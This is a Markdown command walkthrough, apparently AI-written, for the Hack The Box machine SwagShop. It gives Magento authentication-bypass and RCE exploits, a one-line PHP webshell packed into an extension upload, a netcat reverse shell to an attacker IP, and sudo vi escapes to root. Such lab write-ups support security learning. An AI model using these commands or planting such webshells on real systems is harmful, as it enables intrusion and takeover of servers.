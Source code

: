Here’s a **clean, Markdown-formatted command walkthrough** for **HTB: SwagShop**, organized by phase and including explanatory context:

---

# 🧢 HTB: SwagShop – Command Walkthrough

## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- **Initial Access**: Magento authentication bypass + RCE
- **Privilege Escalation**: `sudo vi` file escape

---

## 🔍 Recon

### 🔎 Full Port Scan
```bash
nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.140
```

### 🔎 Script & Version Scan
```bash
nmap -sC -sV -p 80,22 -oA scans/nmap-scripts 10.10.10.140
```

---

## 📂 Web Enumeration

### 🔍 Directory Brute Force
```bash
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -t 50 -o scans/gobuster-root -u http://10.10.10.140/
```

---

## 🐚 Shell as www-data

### 👤 Add Admin via Shoplift Exploit
```bash
python poc.py 10.10.10.140
# Result: ypwq:123 added as admin
```

### 🔓 Login to Admin Panel
Navigate to:
```
http://10.10.10.140/index.php/admin
```

### 🧪 RCE #1 – PHP Object Injection

#### 📦 Retrieve Magento Install Date
```bash
curl -s http://10.10.10.140/app/etc/local.xml | grep date
```

#### 💣 Download Authenticated RCE Exploit
```bash
searchsploit -m exploits/php/webapps/37811.py
mv 37811.py magento_rce.py
```

#### ⚙️ Configure Exploit
Edit `magento_rce.py`:
```python
username = 'ypwq'
password = '123'
php_function = 'system'
install_date = 'Wed, 08 May 2019 07:23:09 +0000'
```

#### ▶️ Execute Command
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' "uname -a"
```

### 🧪 RCE #2 – Malicious Magento Package *(legacy method, may be patched)*

#### 📦 Create Package
```bash
mkdir -p errors
echo '<?php system($_REQUEST["cmd"]); ?>' > errors/cmd.php
md5sum errors/cmd.php  # Save the hash

# Create package.xml with correct structure and hash
# Then:
tar -czvf package.tgz errors/ package.xml
```

#### ⬆️ Upload Package
Navigate to:
```
http://10.10.10.140/downloader/
```

#### 🕸️ Execute Command via Webshell
```bash
curl http://10.10.10.140/errors/cmd.php?cmd=id
```

---

## ⚡ Get Reverse Shell

### 🧬 Reverse Shell Payload
```bash
python magento_rce.py 'http://10.10.10.140/index.php/admin' \
"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9001 >/tmp/f"
```

### 📡 Catch Shell
```bash
nc -lnvp 9001
```

---

## 🔼 Privilege Escalation (www-data → root)

### 📟 Upgrade Shell
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo
fg
reset
# Enter: screen
export TERM=screen
```

### 🔍 Check Sudo Permissions
```bash
sudo -l
```

> Output:
```
(root) NOPASSWD: /usr/bin/vi /var/www/html/*
```

---

## 👑 Root Access

### 📖 Read Flag via `vi`
```bash
sudo /usr/bin/vi /var/www/html/../../../root/root.txt
```

### 🐚 Get Root Shell via vi
```bash
sudo /usr/bin/vi /var/www/html/a

# Inside vi:
:set shell=/bin/bash
:shell
```

Or run directly from command line:
```bash
sudo vi /var/www/html/a -c ':!/bin/sh'
```

---

Let me know if you'd like this saved as a reusable template or combined with your other write-ups!